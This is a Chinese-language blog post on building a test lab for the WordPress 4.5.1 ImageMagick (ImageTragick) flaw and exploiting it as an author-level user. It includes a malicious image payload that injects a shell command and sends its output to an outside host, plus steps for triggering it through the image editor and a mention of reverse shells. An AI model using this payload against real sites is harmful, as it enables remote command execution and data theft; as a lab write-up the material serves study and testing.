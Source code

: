 ```yaml
---
layout: post
title: "Wordpress ImageMagic漏洞测试环境搭建&amp;利用的心路历程"
date: 2016-06-17 17:33:02 +0800
comments: true
categories: 技术
tags: [Web漏洞]
---
```


最近工作上的原因需要搭建一个Wordpress的ImageMagic漏洞环境，搭建过程中遇到了一些头疼的问题，以及对于利用方法的一些思考，在这里总结一下。

## 环境搭建

我使用的是Ubuntu14.04 64位版，使用Ngnix+php5fmp+mysql搭建，Wordpress版本选择的是4.5.1。服务配置这里没什么说的，我们直接来看搭建需要注意的地方。

<!-- more -->

首先Wordpress需要关闭掉自动升级功能，否则被修复到无漏洞版本就尴尬了。在wp-confing.php文件最后添加如下一行代码，然后安装即可。

```php
define('AUTOMATIC_UPDATER_DISABLED',true);
```

后面就是ImageMagic的安装了，Ubuntu默认源中是修复了的版本，所以我们只能去找源码编译。找到合适的源码也是一件很蛋疼的事情，我最后是在[http://www.imagemagick.org/download/releases/](http://www.imagemagick.org/download/releases/)这里找到的版本，不过这里面有的版本在我的环境中编译总是会报错，最终我编译成功的是6.9.0.0这个版本。编译命令如下，需注意要指定一个明确的路径，以便于之后编译php的imagick插件时提供。

```sh
./configure --prefix=/usr/local/imagemagick
make
make install
```

之后下载php的imagick插件源码编译，这里我选择的是3.4.1版本，操作如下：

```sh
wget https://pecl.php.net/get/imagick-3.4.1.tgz
tar -zxvf imagick-3.4.1.tgz 
cd imagick-3.4.1/
phpize
./configure --prefix=/usr/local/imagick --with-php-config=/usr/bin/php-config  --with-imagick=/usr/local/imagemagick
make
make install
```

在php.ini中添加插件so重启php5fpm即可。phpinfo如下图所示：

![phpinfo](/assets/images/2016-06/06-17-phpinfo.png)

## Wordpress ImageMagic漏洞利用

在阅读ricter师傅的[文章](http://ricterz.me/posts/Write%20Up%3A%20Remote%20Command%20Execute%20in%20Wordpress%204.5.1?_=1466130906033)时，自己的理解有些问题，没太搞懂_ajax_nonce的意思，导致在测试漏洞时大部分时间用来找_ajax_nonce了。

通过作者或以上权限，提交一篇文章，并上传一张正常图片，通过编辑图片的功能可以获取该图片的postid，然后上传内容为以下内容的png图片，同样通过编辑图片功能可以获取该图片的postid和_ajax_nonce。

```php
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|php -r "file_get_contents(\"http://172.16.107.144/\".system(\"pwd\"));)'
pop graphic-context
```
这里关于_ajax_nonce的值，我翻看了一下代码，只要我们找到任意的image_editor这个action和恶意图片postid的_ajax_nonce就可以，因为他后台处理只用了这两个值。

![nonce](/assets/images/2016-06/06-17-nonce.png)

然后抓取正常图片任意编辑操作的提交（一般都是imgedit-preview的action），修改_ajax_nonce和post_id为攻击内图片，即可触发漏洞利用。

因为这个漏洞没有回显，所以一遍使用直接反弹shell的方法获取交互，但是由于反弹不是很稳定，这里建议使用上面恶意图片内容中给出的php执行访问自己网站并查看日志的方法来实现简单的交互。